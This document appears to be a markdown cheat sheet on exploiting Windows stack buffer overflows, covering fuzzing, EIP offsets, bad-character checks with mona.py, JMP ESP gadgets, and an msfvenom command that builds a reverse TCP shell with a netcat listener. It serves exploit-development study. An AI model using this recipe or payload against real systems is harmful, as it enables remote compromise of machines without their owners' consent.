 # Stack Buffer Overflow

## Basic Assembly

* POP -> Pops the top of the stack into the EIP register.

## The General Process

1. Find all inputs to the application.
2. Fuzz each input with garbage data in a loop that incrementally sends more bytes to get the application to crash.
3. Find the offset where the application crashes. Do this by creating a pattern with either pwntools or metasploit's `pattern_create`.
4. Copy the value from EIP which indicates where the application crashed and calculate the offset with either pwntools or metasploit's `pattern_offset`.
5. Take control over EIP by using 4 bytes at the offset returned by `pattern_offset`.
6. See if you can get more space for your shellcode by adding more bytes to your buffer and reproducing the same crash. The more space you have for your shellcode, the better off you will be.
7. Check for bad characters from `0x00` - `0xff`. You can right-click on ESP and select *Follow in Dump* to show the input buffer of hex characters in memory. Check how buffer of bad characters got modified.
8. Encode your shellcode so that it doesn't contain any bad characters.
9. Search for a JMP ESP gadget. This gadget must comply with the following criteria:
  * It does not come from a library compiled with ASLR support.
  * The address does not contain any bad characters.
  * ADVANCED TIP: If the module was compiled with DEP support, the JMP ESP needs to be located in the .text code segment of the module with both Read (R) and Executable (E) permissions.
10. You will need the opcode for the gadget. You should be able to achieve so with pwntools or metasploit's `nasm_shell`.
11. Use the address of the new found gadget to redirect execution back into your shellcode. Generally speaking, this works by JMP'ing ESP to your shellcode since you previously overflowed ESP with your shellcode.
  * Make sure that the EIP address is in little endian so that the CPU can interpret the opcode correctly!
12. Generate the shellcode with msfvenom.
  * Certain shellcode encodings like shikata_ga_nai require some NOP padding to function because they require some additional space to extract itself, so don't forget to add the NOP sled!
  * The default exit behavior of msfvenom shellcode is ExitProcess. If you want the process to stay alive after you lose your shell, you want to set the exit function to ExitThread.
13. Setup a netcat listener and pwn!

## Starting windows services

```bat
services.msc
```

## Bad Characters

```python
badchars = (b"\x00"
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

## Using mona.py to detect bad characters

Generate a bytearray

```none
!mona bytearray
!mona compare -f bytearray.txt -a <address where badcharacter buffer starts>
```

## Create a cyclic pattern

```bash
pwn cyclic 800
```

## Searching for JMP ESP gadgets on Windows

### Show modules

```none
!mona modules
```

### Find opcodes

Find `JMP ESP`

```none
!mona find -s "\xff\xe4" -m "MODULE NAME"
```

## Get assembly code

```none
pwn asm 'jmp esp; jmp eax'
```

## Generating shellcode

**Windows 32 bit reverse tcp shell without bad characters**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=443 EXITFUNC=thread -f python -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## Extra

* Debug stepping through polymorphic shellcode seems to interfere with its unraveling. If you hit the `INT` instruction, you are best off hitting `continue` on the debugger to make sure `shikata_ga_nai` decodes itself smoothly decodes itself smoothly.
* Using the binary search theory can help with finding bad characters.

